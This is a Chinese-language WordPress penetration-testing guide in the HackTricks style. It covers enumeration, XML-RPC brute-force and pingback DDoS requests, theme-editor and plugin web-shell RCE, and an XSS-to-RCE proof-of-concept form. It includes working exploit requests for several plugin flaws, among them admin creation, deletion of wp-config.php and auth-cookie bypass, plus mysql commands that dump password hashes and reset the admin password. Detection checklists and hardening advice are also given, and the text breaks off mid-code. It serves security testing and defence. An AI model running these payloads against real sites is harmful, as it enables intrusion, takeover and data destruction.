

# WordPress

{{#include ../../banners/hacktricks-training.md}}

## 基本信息

- **上传的**文件位于：`http://10.10.10.10/wp-content/uploads/2018/08/a.txt`
- **Theme 文件存储在 `/wp-content/themes/` 下。**如果管理员修改 PHP 模板以获得代码执行权限，则可以直接请求对应的 Theme 路径。例如，Twenty Twelve Theme 的 `404.php` 模板通常可通过 [**`/wp-content/themes/twentytwelve/404.php`**](http://10.11.1.234/wp-content/themes/twentytwelve/404.php) 访问。

- 在实际包含并激活名为 `default` 的 Theme 的安装中，还可以测试另一个路径：**`/wp-content/themes/default/404.php`**。

- **`wp-config.php`** 包含 WordPress 数据库凭据。配置的数据库用户可能拥有特权，但不一定是数据库的 `root` 账户。<sup>[[21]](#references)</sup>
- 默认登录路径检查：_**/wp-login.php、/wp-login/、/wp-admin/、/wp-admin.php、/login/**_

### **主要 WordPress 文件**

- `index.php`
- `license.txt` 包含已安装 WordPress 版本等有用信息。
- `wp-activate.php` 用于设置新 WordPress 网站时的电子邮件激活流程。
- 登录目录（可能会被重命名以隐藏）：
- `/wp-admin/login.php`
- `/wp-admin/wp-login.php`
- `/login.php`
- `/wp-login.php`
- `xmlrpc.php` 通过 HTTP 暴露旧版 XML-RPC 接口。现代集成通常使用 WordPress REST API，但 XML-RPC 仍然存在，并且仍可启用。<sup>[[22]](#references)</sup>
- `wp-content` 文件夹是存储 plugins 和 themes 的主要目录。
- `wp-content/uploads/` 是上传媒体的默认目录，但配置和 plugins 可以更改其组织方式。
- `wp-includes/` 包含 WordPress 核心库和资源；不应将其视为用户内容目录。
- 从 WordPress 5.5 开始，核心会在 `wp-sitemap.xml` 暴露一个 XML sitemap 索引，其中包含公开文章和其他可公开查询的内容。<sup>[[23]](#references)</sup>

**Post exploitation**

- `wp-config.php` 文件包含 WordPress 连接数据库所需的信息，例如数据库名称、主机、用户名和密码，以及身份验证密钥、salts 和数据库表前缀。它还可以启用 debugging 设置，因此该文件的泄露尤其敏感。<sup>[[21]](#references)</sup>

### 用户角色

- **Administrator**
- **Editor**：可以发布和管理自己及其他用户的文章。
- **Author**：可以发布和管理自己的文章。
- **Contributor**：可以编写和管理自己的文章，但不能发布。
- **Subscriber**：可以阅读内容并管理自己的个人资料。

这些是默认角色；plugins 和管理员可以修改 capabilities，因此授权测试应检查 capabilities，而不是假设某个角色名称具有固定含义。<sup>[[24]](#references)</sup>

## **被动枚举**

### **获取 WordPress 版本**

检查是否可以找到 `/license.txt` 或 `/readme.html` 文件。

在页面的**源代码**中（示例来自 [https://wordpress.org/support/article/pages/](https://wordpress.org/support/article/pages/)）：

- grep
```bash
curl https://victim.com/ | grep 'content="WordPress'
```
- `meta name`

.png>)

- CSS link files

.png>)

- JavaScript files

.png>)

### 获取 Plugins
```bash
curl -H 'Cache-Control: no-cache, no-store' -L -ik -s https://wordpress.org/support/article/pages/ | grep -E 'wp-content/plugins/' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2
```
### 获取主题
```bash
curl -s -X GET https://wordpress.org/support/article/pages/ | grep -E 'wp-content/themes' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2
```
### 通用版本提取
```bash
curl -H 'Cache-Control: no-cache, no-store' -L -ik -s https://wordpress.org/support/article/pages/ | grep http | grep -E '\?ver=' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2

```
## 主动枚举

### 插件和主题

Passive inspection 不一定能发现所有已安装的插件或主题。为扩大覆盖范围，请使用适当的 wordlist 主动枚举候选名称，并使用遵守评估请求速率限制的工具。

### 用户

- **ID Brute：**通过 Brute Forcing 用户 ID，可以从 WordPress 站点获取有效用户：
```bash
curl -s -I -X GET http://blog.example.com/?author=1
```
如果响应为 **200** 或 **30X**，则 ID **有效**。如果响应为 **400**，则 ID **无效**。

- **wp-json：** 你还可以通过查询来尝试获取有关用户的信息：
```bash
curl http://blog.example.com/wp-json/wp/v2/users
```
另一个可以泄露一些用户信息的 `/wp-json/` endpoint 是：
```bash
curl http://blog.example.com/wp-json/oembed/1.0/embed?url=POST-URL
```
请注意，此 endpoint 只会暴露创建过文章的用户。**只会提供启用了此功能的用户的信息**。

另外请注意，**/wp-json/wp/v2/pages** 可能会 leak IP 地址。

- **Login username enumeration**：在 **`/wp-login.php`** 登录时，如果所输入的 **username 存在或不存在**，显示的 **message** 会有所不同。

### XML-RPC

如果启用了 `xmlrpc.php`，其方法可能会暴露 password-guessing 和 pingback abuse 攻击面。例如，[wpxploit](https://github.com/relarizky/wpxploit) 可以自动执行多项 XML-RPC 检查。请应用严格的速率限制，并且仅在获得授权的情况下进行测试。

要确认它是否处于 active 状态，请请求 **`/xmlrpc.php`** 并发送以下方法调用：

**检查**
```html
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```


**凭据 brute force**

**`wp.getUserBlogs`**、**`wp.getCategories`** 或 **`metaWeblog.getUsersBlogs`** 是可用于 brute-force 凭据的一些方法。如果你能找到其中任何一个，就可以发送类似以下内容：
```html
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```
如果凭据无效，200 状态码响应中应显示 _"Incorrect username or password"_ 消息。

 (2) (2) (2) (2) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (4) (1).png>)

.png>)

使用有效凭据并具备足够的 capabilities 时，`wp.uploadFile` 可以上传媒体。成功的响应会包含生成的路径（[request example](https://gist.github.com/georgestephanis/5681982)）。
```html
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
<methodName>wp.uploadFile</methodName>
<params>
<param><value><string>1</string></value></param>
<param><value><string>username</string></value></param>
<param><value><string>password</string></value></param>
<param>
<value>
<struct>
<member>
<name>name</name>
<value><string>filename.jpg</string></value>
</member>
<member>
<name>type</name>
<value><string>mime/type</string></value>
</member>
<member>
<name>bits</name>
<value><base64><![CDATA[---base64-encoded-data---]]></base64></value>
</member>
</struct>
</value>
</param>
</params>
</methodCall>
```
另外，还有一种使用 **`system.multicall`** brute-force credentials 的**更快方法**，因为你可以在同一个请求中尝试多组 credentials：

<figure><figcaption></figcaption></figure>

**Bypass 2FA**

此方法面向程序而非人类，并且年代较早，因此不支持 2FA。所以，如果你拥有有效的 creds，但主入口受到 2FA 保护，**你或许可以滥用 xmlrpc.php，使用这些 creds 登录并绕过 2FA**。请注意，你无法执行通过 console 可以执行的所有操作，但仍可能获得 RCE，正如 Ippsec 在 [https://www.youtube.com/watch?v=p8mIdm93mfw\&t=1130s](https://www.youtube.com/watch?v=p8mIdm93mfw&t=1130s) 中所解释的那样。

**DDoS or port scanning**

如果 **`pingback.ping`** 方法可用，它可能会让 WordPress server 获取攻击者选择的 HTTP(S) URL。Core 使用 URL validation 来降低 SSRF 风险，因此根据版本和配置的不同，可访问的 schemes、destinations、redirects 以及 response signals 也会有所不同。从历史上看，此功能曾被滥用于反射流量和有限的内部网络探测。<sup>[[25]](#references)</sup>
```html
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```


不要将单个 `faultCode` 视为端口开放的确凿证据。对受控的开放和关闭目标进行比较，并考虑 URL 验证、应用程序错误、超时以及中间设备的行为。

请查看上一节中对 **`system.multicall`** 的使用，了解如何滥用此方法来造成 DDoS。

**DDoS**
```html
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param><value><string>http://target/</string></value></param>
<param><value><string>http://yoursite.com/and_some_valid_blog_post_url</string></value></param>
</params>
</methodCall>
```
.png>)

### `wp-cron.php` load testing

此文件通常位于 WordPress 根目录，即 **`/wp-cron.php`**。WordPress 会在页面请求期间检查到期的 scheduled events，并可能向此 endpoint 发起 non-blocking request。执行的工作取决于 scheduled hooks；重复请求本身并不一定会产生高负载的 database query，但开销较大或锁定不当的任务可能造成可避免的负载。仅在受控环境中进行测试，因为 load testing 可能影响可用性。<sup>[[21]](#references)</sup>

对于繁忙或对延迟敏感的站点，管理员可以设置 `DISABLE_WP_CRON`，并通过 system scheduler 按受控的时间间隔触发到期 events。<sup>[[21]](#references)</sup>

### /wp-json/oembed/1.0/proxy - SSRF

在 oEmbed proxy route 对受测用户开放的版本/configurations 中，尝试 `https://wordpress-site.example/wp-json/oembed/1.0/proxy?url=https://<collaborator-host>/`。现代 core 会通过 `wp_safe_remote_get()` 执行 fetch，该函数会验证 URL 并处理 redirects 以降低 SSRF 风险；authentication、nonce、allowlist 和 network controls 也会影响可达性。<sup>[[25]](#references)</sup>

这是其无法正常工作时的响应：

.png>)

## SSRF


[QuickPress](https://github.com/t0gu/quickpress) 会检查 `pingback.ping` method 和 `/wp-json/oembed/1.0/proxy` path，然后测试相应的 server-side request 行为。<sup>[[26]](#references)</sup>

## Automatic Tools
```bash
cmsmap -s http://www.domain.com -t 2 -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0"
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url http://www.domain.com [--plugins-detection aggressive] --api-token <API_TOKEN> --passwords /usr/share/wordlists/external/SecLists/Passwords/probable-v2-top1575.txt # Enumerate and test authorized accounts; API quotas vary
# To test the admin account in an authorized assessment, add: -U admin
```
## 通过覆盖一位来获取访问权限

这是一种特定于 CTF 的技巧，而不是通用的 WordPress attack。在 [One-Bit-Man](https://github.com/orangetw/My-CTF-Web-Challenges#one-bit-man) 中，攻击者可以翻转任意 WordPress 文件中的一位。翻转 `/var/www/html/wp-includes/user.php` 中相关字节的位后，会改变 password-check condition。确切的 offset（该挑战中为 `5389`）取决于具体的 build。
```php
if ( ! wp_check_password( $password, $user->user_pass, $user->ID ) ) {
return new WP_Error(
```
## **Panel RCE**

**修改所使用主题中的 php 文件（需要 admin credentials）**

Appearance → Theme Editor → 404 Template（位于右侧）

将内容修改为 php shell：

.png>)

通过会渲染该模板的 route 请求修改后的模板；或者，当 web server 允许在主题目录中直接执行 PHP 时，直接访问该文件。在此示例中，路径为 [http://10.11.1.234/wp-content/themes/twentytwelve/404.php](http://10.11.1.234/wp-content/themes/twentytwelve/404.php)。

### MSF

你可以使用：
```bash
use exploit/unix/webapp/wp_admin_shell_upload
```
以获取一个 session。

## Plugin RCE

### PHP plugin

可能可以将 `.php` 文件作为 plugin 上传。\
例如，使用以下方式创建你的 PHP backdoor：

.png>)

然后添加一个新 plugin：

.png>)

上传 plugin 并按下 Install Now：

.png>)

点击 **Proceed**：

.png>)

可能表面上不会发生任何事情，但如果进入 Media，就会看到你的 shell 已经上传：

.png>)

访问它，你将看到用于执行 reverse shell 的 URL：

.png>)

### Uploading and activating malicious plugin

此方法涉及安装一个已知存在漏洞的恶意 plugin，并利用该漏洞获取 web shell。此过程通过 WordPress dashboard 执行，步骤如下：

1. **Plugin Acquisition**：从类似 Exploit DB 的来源获取 plugin，例如[**这里**](https://www.exploit-db.com/exploits/36374)。
2. **Plugin Installation**：
- 进入 WordPress dashboard，然后前往 `Dashboard > Plugins > Upload Plugin`。
- 上传下载的 plugin ZIP 文件。
3. **Plugin Activation**：成功安装 plugin 后，必须通过 dashboard 将其激活。
4. **Exploitation**：
- 安装并激活名为 "reflex-gallery" 的 plugin 后，由于已知其存在漏洞，因此可以对其进行 exploit。
- Metasploit framework 为此漏洞提供了 exploit。加载适当的 module 并执行特定命令后，可以建立 meterpreter session，从而获得对站点的未授权访问。
- 需要注意的是，这只是 exploit WordPress 站点的众多方法之一。

内容包含展示在 WordPress dashboard 中安装和激活 plugin 步骤的视觉辅助材料。但是需要注意的是，在没有适当授权的情况下利用此类漏洞是非法且不符合道德规范的。此信息应负责任地使用，并且仅用于合法场景，例如获得明确许可的 penetration testing。

**For more detailed steps check:** [**https://www.hackingarticles.in/wordpress-reverse-shell/**](https://www.hackingarticles.in/wordpress-reverse-shell/)

## From XSS to RCE

- [**WPXStrike**](https://github.com/nowak0x01/WPXStrike) 是一个用于将 Cross-Site Scripting (XSS) 提升为 Remote Code Execution (RCE) 或在 WordPress 中造成其他严重影响的脚本。其文档化技术针对 WordPress 4.x、5.x 和 6.x，但是否适用取决于确切版本、配置和当前浏览器行为：<sup>[[17]](#references)</sup>
- _**Privilege Escalation:**_ 在 WordPress 中创建用户。
- _**(RCE) Custom Plugin (backdoor) Upload:**_ 将自定义 plugin (backdoor) 上传到 WordPress。
- _**(RCE) Built-In Plugin Edit:**_ 编辑 WordPress 中的内置 plugin。
- _**(RCE) Built-In Theme Edit:**_ 编辑 WordPress 中的内置 theme。
- _**(Custom) Custom Exploits:**_ 针对第三方 WordPress Plugins/Themes 的自定义 Exploits。

### Core login parser differential → DOM clobbering → RCE (XSS2Shell)

在 2026 年 8 月 security backports 发布之前的 WordPress core（已在 7.0.3 中修复）包含一个 pre-authentication login-screen XSS。当已登录的 single-site administrator 访问攻击者控制的页面时，该漏洞可以被串联利用来执行 PHP。其有趣之处在于多个单独受限的 primitive 的组合，而不只是 CVE 本身。<sup>[[19]](#references)[[20]](#references)</sup>

根本原因是 **parser differential**。无效 username 会经过 `sanitize_user()`/`wp_strip_all_tags()`；PHP 的 `strip_tags()` 将 `< area ...>`（`<` 后存在空白）视为文本，但后续的 `wp_kses_post()` 处理会将其解释为允许的 `<area>` 元素。这会将原本应为纯文本的值转化为攻击者控制的 `wp-login.php` DOM。<sup>[[19]](#references)</sup>

浏览器端的攻击链展示了有价值的审计目标，并将 [DOM clobbering](../../pentesting-web/xss-cross-site-scripting/dom-clobbering.md) 与 [SOME](../../pentesting-web/xss-cross-site-scripting/some-same-origin-method-execution.md) 结合起来：<sup>[[19]](#references)</sup>

1. 注入 ID/class 与全局 enqueue 的 `user-profile.js` 所使用的 selectors 相匹配的元素。其自动 password-generator click 会触发 color-scheme handler；两个不存在的 input 都会计算为 `undefined`，因此其 equality guard 会成功。
2. 使用 `<area id=ajaxurl href=...>` 将原本未定义的全局 `ajaxurl` clobber。jQuery 将该元素强制转换为字符串时，其 `href` 会成为 AJAX destination。
3. 将该请求指向 same-origin REST index，并设置 `_method=GET` 和 `_jsonp=<callback>`。JavaScript response 会被 jQuery 执行；当内部 REST response 为 error 时，`_envelope=1` 可以使外层 response status 保持为 200。
4. 在演示的 RCE chain 中，child window 会针对 same-origin opener 中的 Application Password approval form 执行受限 callback，例如 `window.opener.approve.click`。获批准的 credential 会被发送到攻击者的 `success_url`。
5. 使用 administrator Application Password 进行 authenticated REST calls，利用 `unfiltered_html` 发布 JavaScript，将 administrator 导航到该 JavaScript，然后使用 administrator cookie context 获取 plugin-upload nonce，并上传一个包含可直接访问 PHP 文件的 ZIP。最后阶段仍取决于 victim 是否拥有相关的 single-site administrator capabilities。

下面展示了用于 pre-auth XSS primitive 的最小 authorized-test form。每个 `<` 后面紧接的空白都很重要。<sup>[[19]](#references)</sup>
```html
<form id="poc" method="post" action="https://target.example/wp-login.php">
<input type="hidden" name="log" value='< area id=ajaxurl href="/?rest_route=/&amp;_method=GET&amp;_jsonp=alert&amp;_envelope=1">< div id=color-picker class=reset-pass-submit>< button class="wp-generate-pw color-option">X'>
<input type="hidden" name="pwd" value="x">
</form>
<script>document.getElementById('poc').submit()</script>
```
从该 chain 中提取的有用 hunting indicators 包括：可疑的 `log` 值，其中包含 `<`，并在 `area`、`div` 或 `button` 之前存在空白字符；组合使用 `_jsonp`、`_method` 和 `_envelope` 的 REST requests；意外访问 `authorize-application.php`；新建的 Application Passwords；先通过 REST 创建页面，随后上传 plugin ZIP；以及直接请求新创建的 plugin PHP 文件。<sup>[[19]](#references)</sup>

WordPress 7.0.3 对 failed-login 值进行了转义，并宣布为仍符合 security maintenance 条件的分支提供 backports。因此，仅凭版本字符串是不够的：请确认已安装适用的 security build/backport。<sup>[[19]](#references)[[20]](#references)</sup>

## Post Exploitation

提取 usernames 和 passwords：
```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"
```
更改管理员密码：
```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;UPDATE wp_users SET user_pass=MD5('hacked') WHERE ID = 1;"
```
## WordPress plugin pentesting

### 攻击面

了解 WordPress plugin 如何暴露功能，对于审计其攻击面至关重要。下面总结了常见的入口点，并在所引用的研究中讨论了存在漏洞的示例。<sup>[[18]](#references)</sup>

- **`wp_ajax`**

Plugins 可以通过 AJAX handlers 暴露 server-side functions。这些 callbacks 可能包含逻辑、authentication 或 authorization 漏洞。一个反复出现的错误是将持有 WordPress nonce 视为调用者有权执行该操作的证明。

以下 functions 可用于在 plugin 中暴露一个 function：
```php
add_action( 'wp_ajax_action_name', array(&$this, 'function_name'));
add_action( 'wp_ajax_nopriv_action_name', array(&$this, 'function_name'));
```
**注册 `wp_ajax_nopriv_` hook 会使 callback 可被未认证用户访问。**

> [!CAUTION]
> `wp_verify_nonce()` 验证与 action 和 user context 关联的限时 CSRF token；它**不会**授权该 action，也不能仅凭此证明用户具有特定 role。应将 nonce 验证与适当的 capability check（例如 `current_user_can()`）结合使用。<sup>[[27]](#references)</sup>

- **REST API**

Plugins 还可以通过调用 `register_rest_route()` 通过 REST API 暴露 functions：
```php
register_rest_route(
$this->namespace, '/get/', array(
'methods' => WP_REST_Server::READABLE,
'callback' => array($this, 'getData'),
'permission_callback' => '__return_true'
)
);
```
`permission_callback` 是一个回调函数，用于检查给定用户是否有权调用 API 方法。

**如果使用内置的 `__return_true` 函数，将会直接跳过用户权限检查。**

- **直接访问 php 文件**

WordPress 使用 PHP，而 Web 服务器配置通常允许直接访问 plugin 目录下的文件。因此，如果某个 plugin 文件在被直接请求时执行敏感操作，却没有引导加载 WordPress authorization 或拒绝直接访问，就可能将该功能暴露给未经身份验证的用户。

### Trusted-header REST impersonation (WooCommerce Payments ≤ 5.6.1)

某些 plugin 会为内部集成或反向代理实现“trusted header”快捷方式，然后使用该 header 为 REST requests 设置当前用户上下文。如果上游组件没有通过 cryptographic 方式将该 header 与请求绑定，攻击者就可以伪造该 header，并以 administrator 身份访问特权 REST routes。<sup>[[6]](#references)[[7]](#references)</sup>

- 影响：未经身份验证即可通过 core users REST route 创建新的 administrator，从而提升为 admin 权限。
- 示例 header：`X-Wcpay-Platform-Checkout-User: 1`（强制使用 user ID 1，通常是第一个 administrator 账户）。
- 被利用的 route：使用 elevated role array 的 `POST /wp-json/wp/v2/users`。

PoC
```http
POST /wp-json/wp/v2/users HTTP/1.1
Host: <WP HOST>
User-Agent: Mozilla/5.0
Accept: application/json
Content-Type: application/json
X-Wcpay-Platform-Checkout-User: 1
Content-Length: 114

{"username": "honeypot", "email": "wafdemo@patch.stack", "password": "demo", "roles": ["administrator"]}
```
为何有效

- 该 plugin 将 client-controlled header 映射为 authentication state，并跳过 capability checks。
- WordPress core 会检查此 route 所需的 user-creation capabilities；存在漏洞的 plugin 通过直接根据 header 设置当前 user context，绕过了预期的 authentication boundary。

预期成功指标

- HTTP 201，并返回描述所创建 user 的 JSON body。
- 在 `wp-admin/users.php` 中可以看到新的 admin user。

Detection checklist

- Grep 查找 `getallheaders()`、`$_SERVER['HTTP_...']`，或读取 custom headers 以设置 user context 的 vendor SDK（例如 `wp_set_current_user()`、`wp_set_auth_cookie()`）。
- 检查 REST registrations，查找缺少 robust `permission_callback` checks、而是依赖 request headers 的 privileged callbacks。
- 查找 REST handlers 中对 core user-management functions（`wp_insert_user`、`wp_create_user`）的使用，确认其是否仅由 header values 进行 gating。

### 未认证的任意文件删除 via wp_ajax_nopriv（Litho Theme <= 3.0）

WordPress themes 和 plugins 经常通过 `wp_ajax_` 和 `wp_ajax_nopriv_` hooks 暴露 AJAX handlers。当使用 **_nopriv_** variant 时，**unauthenticated visitors 可以访问该 callback**，因此任何 sensitive action 都必须额外实现：

1. **capability check**（例如 `current_user_can()`，或至少 `is_user_logged_in()`），以及
2. 使用 `check_ajax_referer()` / `wp_verify_nonce()` 验证的 **CSRF nonce**，以及
3. **严格的 input sanitisation / validation**。

Litho multipurpose theme（< 3.1）在 *Remove Font Family* feature 中遗漏了这 3 项控制措施，最终发布了以下代码（简化版）：<sup>[[1]](#references)</sup>
```php
function litho_remove_font_family_action_data() {
if ( empty( $_POST['fontfamily'] ) ) {
return;
}
$fontfamily = str_replace( ' ', '-', $_POST['fontfamily'] );
$upload_dir = wp_upload_dir();
$srcdir  = untrailingslashit( wp_normalize_path( $upload_dir['basedir'] ) ) . '/litho-fonts/' . $fontfamily;
$filesystem = Litho_filesystem::init_filesystem();

if ( file_exists( $srcdir ) ) {
$filesystem->delete( $srcdir, FS_CHMOD_DIR );
}
die();
}
add_action( 'wp_ajax_litho_remove_font_family_action_data',        'litho_remove_font_family_action_data' );
add_action( 'wp_ajax_nopriv_litho_remove_font_family_action_data', 'litho_remove_font_family_action_data' );
```
此代码片段引入的问题：

* **未进行身份验证的访问** – 注册了 `wp_ajax_nopriv_` hook。
* **没有 nonce / capability check** – 任何访问者都可以访问该 endpoint。
* **没有进行路径清理** – 用户控制的 `fontfamily` 字符串未经过滤就被拼接到文件系统路径中，从而允许经典的 `../../` traversal。

#### Exploitation

该 traversal 允许攻击者逃逸出预期的 `litho-fonts` 目录，并删除 PHP/web-server account 可写入的文件。在典型的目录布局中，以下请求会定位到 `wp-config.php`：
```bash
curl -X POST https://victim.com/wp-admin/admin-ajax.php \
-d 'action=litho_remove_font_family_action_data' \
-d 'fontfamily=../../../wp-config.php'
```
从 `<wp-root>/wp-content/uploads/litho-fonts/` 出发，三个 `../` 序列即可到达 WordPress 根目录。所需的深度会根据配置的上传路径而变化。删除 `wp-config.php` 会导致服务中断，并可能暴露重新配置/安装流程；要进一步将其变成 takeover，还取决于文件系统权限以及攻击者是否能够提供一个可访问的数据库配置。

其他具有影响力的目标包括 plugin/theme `.php` 文件（用于破坏 security plugins）或 `.htaccess` 规则。

#### Detection checklist

* 任何调用 filesystem helpers（`copy()`、`unlink()`、`$wp_filesystem->delete()` 等）的 `add_action( 'wp_ajax_nopriv_...')` callback。
* 将未经清理的用户输入拼接到路径中（查找 `$_POST`、`$_GET`、`$_REQUEST`）。
* 缺少 `check_ajax_referer()` 和 `current_user_can()`/`is_user_logged_in()`。

---

### 通过过时的 role restoration 和缺失的 authorization 进行 Privilege escalation（ASE "View Admin as Role"）

许多 plugins 通过将原始 role(s) 保存到 user meta 中来实现“view as role”或临时 role-switching 功能，以便之后恢复。如果 restoration path 仅依赖 request parameters（例如 `$_REQUEST['reset-for']`）以及由 plugin 维护的列表，却没有检查 capabilities 和有效的 nonce，就会导致 vertical privilege escalation。

在 Admin and Site Enhancements (ASE) plugin（≤ 7.6.2.1）中发现了一个真实案例。reset branch 会在用户名出现在内部数组 `$options['viewing_admin_as_role_are']` 中时，根据 `reset-for=<username>` 恢复 roles，但在移除当前 roles 并从 user meta `_asenha_view_admin_as_original_roles` 重新添加已保存的 roles 前，既没有执行 `current_user_can()` 检查，也没有进行 nonce verification：<sup>[[3]](#references)[[4]](#references)</sup>
```php
// Simplified vulnerable pattern
if ( isset( $_REQUEST['reset-for'] ) ) {
$reset_for_username = sanitize_text_field( $_REQUEST['reset-for'] );
$usernames = get_option( ASENHA_SLUG_U, [] )['viewing_admin_as_role_are'] ?? [];

if ( in_array( $reset_for_username, $usernames, true ) ) {
$u = get_user_by( 'login', $reset_for_username );
foreach ( $u->roles as $role ) { $u->remove_role( $role ); }
$orig = (array) get_user_meta( $u->ID, '_asenha_view_admin_as_original_roles', true );
foreach ( $orig as $r ) { $u->add_role( $r ); }
}
}
```
为什么它可以被利用

- 信任 `$_REQUEST['reset-for']` 和一个 plugin option，但没有 server-side authorization。
- 如果用户之前在 `_asenha_view_admin_as_original_roles` 中保存了更高权限，后来被降权，则可以通过访问 reset path 将其恢复。
- 在某些部署中，任意已认证用户都可以为仍存在于 `viewing_admin_as_role_are` 中的其他 username 触发 reset（authorization 失效）。

利用（示例）
```bash
# While logged in as the downgraded user (or any auth user able to trigger the code path),
# hit any route that executes the role-switcher logic and include the reset parameter.
# The plugin uses $_REQUEST, so GET or POST works. The exact route depends on the plugin hooks.
curl -s -k -b 'wordpress_logged_in=...' \
'https://victim.example/wp-admin/?reset-for=<your_username>'
```
在存在漏洞的构建版本中，此操作会移除当前角色，并重新添加保存的原始角色（例如 `administrator`），从而有效提升权限。

检测清单

- 查找会在 user meta 中持久化保存“原始角色”的角色切换功能（例如 `_asenha_view_admin_as_original_roles`）。
- 识别以下重置/恢复路径：
- 从 `$_REQUEST` / `$_GET` / `$_POST` 读取用户名。
- 在未调用 `current_user_can()` 和 `wp_verify_nonce()` / `check_admin_referer()` 的情况下，通过 `add_role()` / `remove_role()` 修改角色。
- 根据 plugin option 数组（例如 `viewing_admin_as_role_are`）进行授权，而不是根据操作者的 capabilities 进行授权。

---

### 通过 public init 上基于 cookie 信任的用户切换实现未认证权限提升（Service Finder “sf-booking”）

某些 plugins 会将用户切换辅助函数连接到 public `init` hook，并从客户端可控的 cookie 中获取身份。如果代码在未验证 authentication、capability 和有效 nonce 的情况下调用 `wp_set_auth_cookie()`，任何未认证的访问者都可以强制以任意 user ID 登录。

典型的 vulnerable pattern（由 Service Finder Bookings ≤ 6.1 简化而来）：<sup>[[8]](#references)[[9]](#references)</sup>
```php
function service_finder_submit_user_form(){
if ( isset($_GET['switch_user']) && is_numeric($_GET['switch_user']) ) {
$user_id = intval( sanitize_text_field($_GET['switch_user']) );
service_finder_switch_user($user_id);
}
if ( isset($_GET['switch_back']) ) {
service_finder_switch_back();
}
}
add_action('init', 'service_finder_submit_user_form');

function service_finder_switch_back() {
if ( isset($_COOKIE['original_user_id']) ) {
$uid = intval($_COOKIE['original_user_id']);
if ( get_userdata($uid) ) {
wp_set_current_user($uid);
wp_set_auth_cookie($uid);  // 🔥 sets auth for attacker-chosen UID
do_action('wp_login', get_userdata($uid)->user_login, get_userdata($uid));
setcookie('original_user_id', '', time() - 3600, '/');
wp_redirect( admin_url('admin.php?page=candidates') );
exit;
}
wp_die('Original user not found.');
}
wp_die('No original user found to switch back to.');
}
```
为什么它可被利用

- 公共 `init` hook 使 handler 可被 unauthenticated users 访问（没有 `is_user_logged_in()` guard）。
- Identity 来源于客户端可修改的 cookie（`original_user_id`）。
- 直接调用 `wp_set_auth_cookie($uid)` 会在没有任何 capability/nonce checks 的情况下，将 requester 登录为该用户。

Exploitation（unauthenticated）
```http
GET /?switch_back=1 HTTP/1.1
Host: victim.example
Cookie: original_user_id=1
User-Agent: PoC
Connection: close
```
---

### WordPress/plugin CVEs 的 WAF considerations

通用的 edge/server WAF 通常针对广泛的模式进行调优（SQLi、XSS、LFI）。许多高影响的 WordPress/plugin 漏洞属于特定于应用的逻辑/auth 漏洞，除非引擎理解 WordPress 路由和 plugin 语义，否则它们看起来就像正常流量。<sup>[[5]](#references)[[11]](#references)</sup>

攻击提示

- 使用干净的 payloads 针对特定 plugin 的 endpoints：`admin-ajax.php?action=...`、`wp-json/<namespace>/<route>`、自定义文件处理器、shortcodes。
- 首先测试 unauth 路径（AJAX `nopriv`、具有宽松 `permission_callback` 的 REST、公开的 shortcodes）。默认 payloads 通常无需 obfuscation 即可成功。
- 典型的高影响案例：privilege escalation（broken access control）、arbitrary file upload/download、LFI、open redirect。

防御提示

- 不要依赖通用 WAF signatures 来保护 plugin CVEs。实施 application-layer、特定于漏洞的 virtual patches，或及时更新。
- 在代码中优先采用 positive-security checks（capabilities、nonces、严格的 input validation），而不是 negative regex filters。

## WordPress Protection

### Regular Updates

保持 WordPress core、plugins 和 themes 为最新版本，并根据部署情况配置 staging 和 backups。可以在 `wp-config.php` 中配置 core updates：
```bash
define( 'WP_AUTO_UPDATE_CORE', true );
```
Plugin 和 theme 更新过滤器应放在 plugin 中——最好是 must-use plugin——而不是直接放在 `wp-config.php` 中，因为 WordPress 在此处尚未完全加载：<sup>[[28]](#references)</sup>
```php
add_filter( 'auto_update_plugin', '__return_true' );
add_filter( 'auto_update_theme', '__return_true' );
```
仅安装受信任且持续维护的 WordPress 插件和主题，并删除不再需要的组件。<sup>[[29]](#references)</sup>

### 安全插件

- [**Wordfence Security**](https://wordpress.org/plugins/wordfence/)
- [**Sucuri Security**](https://wordpress.org/plugins/sucuri-scanner/)
- [**iThemes Security**](https://wordpress.org/plugins/better-wp-security/)

### **其他建议**

- 在确保存在其他管理员后，重命名或删除可预测的旧版 **admin** 账户；仅更改用户名并不是主要防御措施。
- 使用**强且唯一的密码**和 **2FA**。
- 定期审查用户及其权限。
- 对登录尝试进行速率限制，并监控密码猜测行为。
- 在适合运营的情况下，按网络或通过额外的身份验证层限制对 `/wp-login.php` 和敏感的 `/wp-admin/` 路由的访问。不要重命名不存在的 `wp-admin.php` core 文件，并考虑所需的公共端点，例如 `wp-admin/admin-ajax.php`。<sup>[[29]](#references)</sup>

### 未认证的 SQL Injection via insufficient validation (WP Job Portal <= 2.3.2)

WP Job Portal 招聘插件暴露了一个 **savecategory** task，最终会在 `modules/category/model.php::validateFormData()` 中执行以下存在漏洞的代码：<sup>[[2]](#references)</sup>
```php
$category  = WPJOBPORTALrequest::getVar('parentid');
$inquery   = ' ';
if ($category) {
$inquery .= " WHERE parentid = $category ";   // <-- direct concat ✗
}
$query  = "SELECT max(ordering)+1 AS maxordering FROM "
